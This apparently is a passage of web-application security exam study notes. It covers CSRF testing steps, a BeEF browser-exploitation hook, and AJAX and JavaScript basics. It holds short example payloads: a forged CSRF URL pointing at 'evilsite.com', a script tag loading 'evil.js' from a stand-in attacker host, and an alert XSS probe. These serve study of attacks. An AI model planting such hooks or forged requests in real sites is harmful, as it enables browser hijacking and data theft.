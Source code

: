 CSRF

- Leverages the trust the site has in the user (or user&#39;s browser) and uses predictable parameters

  - http://www.earth.com/gui/?action=add-url&s=/http://evilsite.com/union.torrent

- ZAP with API enabled generated an Anti-CSRF form to check the vulnerability

- Four steps to test (manual):
  - Review app logic
  - Find sensitive page with predictable parameters
  - Create HTML page with the request
  - Access the page while logged in and check the function execution on application back-end
  
- Powerful exploitation tool: BeEF (PHP based app) (uses hook.js)
  
  - <script src="http://www.attackersite.com/evil.js"></script>
  
  - Clipboard stealing, History Browsing, Port Scanning, Browser exploits, Inter-protocol exploitation
  
- Other tools: [https://code.google.com/p/monkeyfist/](https://code.google.com/p/monkeyfist/)[
](https://code.google.com/p/monkeyfist/)

------

#### **Programming Fundamentals**

Goal: The candidate will demonstrate familiarity with modern web-based languages including JavaScript with Ajax, and Python

AJAX

- XMLHttpRequest
  - open(&quot;GET&quot;,&quot;\&lt;URI\&gt;&quot;);
  - send(); à Send data like XML / JSON, etc. in this field as String.
  - onreadystatechange = \&lt;function may be called\&gt;
  - readyState
    - 0 – Req. is uninitialized
    - 1 – Req. has been set up
    - 2 – Req. is sent
    - 3 – Waiting for response
    - 4 – Response is complete
  - responseText

JavaScript

- Unnecessary functionality introduced with libraries and frameworks used

- <script>alert(&#39;JS&#39;)</script>

- var variable = &quot;string&quot;

- Comments
  - /\* this is a multi-line comment \*/
  - // single line comment
  
- Switch / case exists in JavaScript
